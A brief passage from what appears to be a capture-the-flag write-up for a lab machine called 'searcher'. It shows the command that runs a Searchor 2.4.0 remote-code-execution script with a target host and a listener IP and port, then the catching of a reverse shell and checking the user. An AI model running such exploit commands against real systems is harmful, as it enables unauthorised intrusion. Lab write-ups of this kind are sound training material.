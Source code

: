## Exploit 

> Try the exploit code 
> The message shows the usage for this RCE code

```
python searchor-2_4_0_RCE.py
```

![image](./IMG/7.png)

> Following the usage guide to execute it again

```
python searchor-2_4_0_RCE.py searcher.htb 10.10.16.107 1337
```
![image](./IMG/8.png)

> Check nc listener, it will get reverse shell

![image](./IMG/9.png)

> Confirm the current user, its 'svc'

```
id 
whoami
```

> Get user flag
